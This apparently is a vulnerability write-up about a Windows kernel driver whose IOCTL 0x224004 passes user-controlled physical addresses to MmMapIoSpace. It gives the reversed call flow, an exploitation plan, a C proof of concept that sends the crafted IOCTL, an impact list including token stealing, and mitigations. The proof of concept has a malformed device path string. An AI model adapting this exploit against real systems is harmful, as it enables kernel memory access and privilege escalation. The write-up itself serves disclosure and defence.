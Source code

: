 # Windows Kernel Driver Exploitation - Vulnerable IOCTL and Physical Memory Mapping

## Vulnerability Summary

The vulnerable driver exposes an IOCTL handler function, which processes various IOCTL codes, including `0x224004`. This IOCTL path passes unchecked user input to `MmMapIoSpace`, a kernel function that maps physical memory into virtual address space.

### Function Call Flow:

Reverse engineered using Ghdira
```
entry()
 -> FUN_00011500(param_1)
     -> FUN_00011460(param_1, IRP)
         -> if IOCTL == 0x224004:
                -> FUN_00011040(device, IRP, user_buffer)
                    -> MmMapIoSpace(physical_addr, size, 0)
```

### Core Vulnerability

In `FUN_00011040`, user input is parsed and used to call `MmMapIoSpace()`:

```c
puVar2 = *(undefined8 **)(param_2 + 0x18);  // User input buffer
uVar1 = *(uint *)(puVar2 + 1);              // Size (user controlled)
...
puVar4 = MmMapIoSpace(PhysicalAddress, Size, 0);
```

There are insufficient validations on:

* The physical address to be mapped
* The size of the mapping

This allows arbitrary physical memory access from user-mode by crafting a malicious IRP input.

## Exploitation Plan

To exploit the vulnerability:

1. Open a handle to the device.
2. Send a crafted buffer with a physical address and size.
3. The driver maps the physical memory.
4. Use the mapped region to read/write kernel memory.

### PoC Code (C)

```c
#include <windows.h>
#include <stdio.h>

#define IOCTL_VULN 0x224004

int main() {
    HANDLE hDevice = CreateFileA("\\\\.\\"dev_symb_link"", //symbolic link name
                                 GENERIC_READ | GENERIC_WRITE,
                                 0,
                                 NULL,
                                 OPEN_EXISTING,
                                 0,
                                 NULL);

    if (hDevice == INVALID_HANDLE_VALUE) {
        printf("[-] Failed to open device: %lu\n", GetLastError());
        return 1;
    }

    struct {
        uint64_t phys_addr;
        uint32_t size;
        uint32_t padding;
    } input = {
        .phys_addr = 0x100000, // Physical address (e.g., 1MB)
        .size = 0x1000         // One page (safe size)
    };

    DWORD bytesReturned;
    BOOL result = DeviceIoControl(hDevice,
                                  IOCTL_VULN,
                                  &input,
                                  sizeof(input),
                                  NULL,
                                  0,
                                  &bytesReturned,
                                  NULL);

    if (result) {
        printf("[+] IOCTL sent successfully.\n");
    } else {
        printf("[-] IOCTL failed: %lu\n", GetLastError());
    }

    CloseHandle(hDevice);
    return 0;
}
```

## Impact

This vulnerability provides a powerful primitive that allows unprivileged users to:

* Read kernel memory
* Write to kernel memory
* Hijack control structures (e.g., token stealing)
* Fully compromise the system

## Mitigation

Drivers should:

* Never allow user-mode to specify physical addresses directly.
* Validate all IOCTL input strictly.
* Avoid using `MmMapIoSpace()` on user-controlled input.